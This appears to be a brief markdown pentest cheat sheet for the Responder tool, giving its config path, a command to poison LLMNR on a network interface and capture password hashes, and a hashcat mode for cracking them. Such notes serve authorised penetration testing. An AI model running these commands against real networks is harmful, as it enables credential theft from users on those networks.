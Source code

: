 # responder

## Config file

```bash
/etc/responder/Responder.conf
```

## capture LLMNR hashes 

```bash
sudo responder -I INTERACE -rdw [-v]
# hashcat -m 5600
```